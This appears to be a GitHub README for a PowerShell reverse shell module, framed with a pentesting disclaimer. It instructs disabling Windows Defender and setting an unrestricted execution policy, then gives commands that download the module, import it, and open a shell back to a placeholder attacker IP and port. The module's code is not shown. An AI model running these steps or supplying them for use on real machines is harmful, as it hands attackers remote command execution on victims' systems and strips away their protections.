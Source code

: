# ReverseShell - PowerShell
# Author: okpalandev
# Version: 1.0
# Date: 2024-03-24

## Disclaimer
This script is designed for educational and penetration testing purposes only. Do not use this script on systems that you do not have permission to test. The author of this script is not responsible for any damage caused by the use of this script.


## Description
This script is a reverse shell that uses PowerShell to connect to a remote host. The script is designed to be run on the target machine and will connect back to the attacker's machine. The script can be run on any Windows machine that has PowerShell installed. The script will open a connection to the attacker's machine and allow the attacker to execute commands on the target machine. The script is designed to be used for penetration testing and should only be used on systems that you have permission to test.

## Usage
To use the script, you will need to modify the IP address and port number in the script to match the IP address and port number of the attacker's machine. You will also need to run the script on the target machine. Once the script is running on the target machine, it will connect back to the attacker's machine and allow the attacker to execute commands on the target machine.

## Installation
To install the script, you can download the script from the GitHub repository and save it to your local machine. You can then import the script into PowerShell and run the script on the target machine.

## Requirements
1) Disable Windows Defender
2) Add to Policy Execution

```powershell
PS C:\> Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser 
``` 

## Example
```powershell
PS C:\> Invoke-WebRequest -Uri "https://raw.githubusercontent.com/okpalandev/PowerShell/main/ReverseShell.psm1" -OutFile "ReverseShell.psm1"
```

```powershell
PS C:\> Import-Module .\ReverseShell.psm1
```

```powershell
PS C:\> Start-ReverseShell -IPAddress " attacker_ip " -Port " attacker_port "
```

